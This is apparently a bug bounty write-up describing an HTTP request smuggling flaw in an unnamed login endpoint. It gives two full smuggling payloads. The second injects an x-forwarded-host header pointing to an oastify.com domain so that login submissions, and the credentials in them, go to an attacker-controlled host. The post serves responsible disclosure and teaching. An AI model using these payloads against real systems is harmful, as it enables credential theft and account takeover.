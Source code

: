 ```yaml
---
layout: post
title: Stealing Login Credential using HTTP Request Smuggling
date: 2023-08-15 07:03 +0000
categories: [bugbounty, writeup]
tags: [bugbounty] 
---
```


I recently discovered a significant security vulnerability in a target. The vulnerability, HTTP request smuggling, allowed me to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F22149b15-d733-4242-b5ad-6d1645d78a09%2FScreenshot_2023-05-16_at_12.07.05_PM(1).jpg?table=block&id=5f03f4bc-0539-4e4c-87aa-5ba0aa8d37d2&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2 ](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe67ab3da-1b94-4a50-a083-2bf026eb2be6%2FScreenshot_2023-05-22_at_9.27.15_PM.png?table=block&id=2c1eb8d5-52a8-4f58-9619-e4114745142c&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.

### Reference

[PortSwigger](https://portswigger.net/web-security/request-smuggling)